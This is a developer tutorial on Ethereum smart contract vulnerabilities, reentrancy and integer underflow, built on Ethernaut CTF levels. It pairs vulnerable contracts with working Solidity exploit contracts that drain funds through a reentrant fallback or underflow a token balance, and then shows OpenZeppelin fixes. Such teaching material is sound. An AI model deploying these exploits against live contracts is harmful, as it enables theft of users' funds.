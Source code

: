 # Common vulnerabilities in Ethereum and EVM based chains

Solidity cheatsheet is available in [solidity-cheatsheet](/README.md).

## Table of contents

- [Common vulnerabilities in Ethereum and EVM based chains](#common-vulnerabilities-in-ethereum-and-evm-based-chains)
  * [Table of contents](#table-of-contents)
  * [Motivation](#motivation)
  * [Reentrancy](#reentrancy)
    + [Examples](#reentrancy-example)
    + [How to prevent reentrancy attacks](#how-to-prevent-reentrancy-attacks)
  * [Arithmetic overflows and underflows](#arithmetic-overflows-and-underflows)
    + [Underflow example](#underflow-example)
    + [Overflow and underflow protection](#overflow-and-underflow-protection)

### Motivation

With the recent increase in cryptocurrency prices, new attack vectors with increasing complexity are discovered. We as developers should be aware of the common EVM vulnerabilities and try as much as possible to mitigate them.

### Reentrancy

Computer scientists say that a procedure is re-entrant if its execution can be interrupted in the middle, initiated over (re-entered), and both runs can complete without any errors in execution. In the context of Ethereum smart contracts, re-entrancy can lead to serious vulnerabilities. 

The most famous example of this was the DAO Hack, where $70million worth of Ether was siphoned off.

### Reentrancy example
(example from [Ethernaut](https://ethernaut.openzeppelin.com))
```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

The above smart contract can be exploited using a simple reentrancy attack. Example below:
```solidity
pragma solidity ^0.6.0;

contract Exploiter {
    address private owner;
    address payable vault = <address of the exploited contract>;
    Reentrancy exploited = Reentrancy(<address of the exploited contract>);
    
    constructor() public payable{
        owner = msg.sender;
    }
    
    modifier onlyOwner {
        require(msg.sender == owner, "Only owner: operation not allowed");
        _;
    }
    
    function deposit() public onlyOwner {
        exploited.donate{value: 1 ether}(address(this));
    }
    
    function attack() public onlyOwner {
        exploited.withdraw(0.5 ether);
    }
    
    function selfkill() public onlyOwner {
        selfdestruct(payable(owner));
    }
    
    fallback() external payable {
        if ( vault.balance > 0 ){
            exploited.withdraw(0.5 ether);
        }
    }
}
```
### How to prevent Reentrancy attacks:

Use the [Openzeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts)'s ReentrancyGuard to block reentrant calls to your functions.

Example: (using the reentrancy guard for the vulnerable contract from above)

```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/security/ReentrancyGuard.sol';

contract Reentrance is ReentrancyGuard{
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public nonReentrant{
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

Notice the inheritance `contract Reentrancy is ReentrancyGuard` and function definition `function withdraw(uint _amount) public nonReentrant`.

### Arithmetic overflows and underflows
Solidity’s 256 bits Virtual Machine (EVM) brought back overflow and underflow issues. Developers should be extra careful when using uint data types.
You can think of a uint/int data type as a ring buffer, when the limit is exceded, it will start again from the first element(i.e. zero).
Take a look at the following example:
- we have a `uint _var = 0` that means it can store any integer up to 2^256 - 1. Now let's say we want to do the following operation: 
    - `_var = _var + (2**256 - 1) + 5` will give as a value of 4 (because `0 + 2**256 - 1` will give us MAX value, but adding 5 over the max value will overflow the uint and give us 4)

### Underflow example
The following contract is taken from the [Ethernaut](https://ethernaut.openzeppelin.com) CTF, Token level:
```solidity
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

A simple exploit for this contract could be the following:
```solidity
pragma solidity ^0.6.0;

interface Token{
    function transfer(address _to, uint value) external ;
}

contract TokenHacker{
    address tokenAddress = 0x08EABfcd1a1931F3307908EeE726Aa2F4Fe1E3b0;
    Token token;
    
    constructor () public {
        token = Token(tokenAddress);
    }
    
    function hack() public {
        token.transfer(0xa447DB345C0b81aD25B83CFF30E08f6b9fdF6CA6, 50000);
    }
    
}
```

### Overflow and underflow protection
Use the [Openzeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts)'s SafeMath library to avoid underflows and overflows on your data types.

